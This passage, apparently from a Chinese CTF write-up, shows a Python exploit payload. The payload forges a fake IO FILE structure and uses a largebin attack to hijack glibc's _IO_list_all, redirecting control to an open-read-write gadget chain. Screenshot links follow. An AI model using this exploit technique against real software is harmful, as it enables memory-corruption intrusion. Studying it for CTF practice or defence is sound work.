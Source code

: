 [![](assets/1700701212-0a9191535ca16210089b4e9a766d7a1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121232-5c2648a6-88ed-1.png)

```plain
magic_gadget = libc_base + 0x154dd0 +26
pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20)
pl+=p64(0)*2+p64(0)+p64(orw_addr) #chunk0+0x48
pl+=p64(0)*4
pl+=p64(0)*3+p64(lock)
pl+=p64(0)*2+p64(chunk0+0xe0)+p64(0)
pl+=p64(0)*4
pl+=p64(0)+p64(wfile) 
pl+=p64(0)*0x1c+p64(chunk0+0xe0+0xe8)     #chunk0+0xe0
pl+=p64(0)*0xd+p64(magic_gadget)
edit(5,pl)
add(8,0x500,'bbbb')
```

edit 5改写bk\_nextsize后add触发largebin attack将fake io挂到io\_list\_all上

[![](assets/1700701212-52dc7bf6dd34a11f8004d5c0c1af7e74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121244-6315f274-88ed-1.png)

[![](assets/1700701212-ca428b1e10495ee7346a7f4ee933698a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121249-65d7fd68-88ed-1.png)

[![](assets/1700701212-25f28c0b7872a208417d02ddd83f222f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121256-6a5e5be8-88ed-1.png)
